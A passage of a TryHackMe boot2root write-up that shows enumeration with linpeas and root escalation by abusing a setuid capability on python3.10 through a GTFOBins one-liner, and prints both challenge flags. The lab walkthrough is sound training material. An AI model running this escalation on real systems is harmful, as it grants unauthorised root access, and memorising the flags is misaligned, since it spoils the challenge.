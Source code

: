 -> We get the first flag, user.txt

```
fabiano@tryhackme-2204:~$ ls
user.txt
fabiano@tryhackme-2204:~$ cat user.txt
THM{bishop_to_c4_check}
```

-> Let's transfer over linpeas for further enumeration. After doing so, we run linpeas. 

![](attachments/Pasted%20image%2020250629135035.png)

-> After looking into it, this means that python3.10 is able to run with the capability of changing its user ID. This means, we could probably use this to run as root. Looking through gtfobins, I found this

![](attachments/Pasted%20image%2020250629135420.png)

-> Using this, we can escalate privileges to root. 

```
fabiano@tryhackme-2204:/tmp$ /usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
root
# cat /root/root.txt
THM{check_check_check_mate}
```

-> Thus, we have found the final flag, root.txt


# Industrial Intrusion Task 16 - Boot2root Under Construction THM Writeup
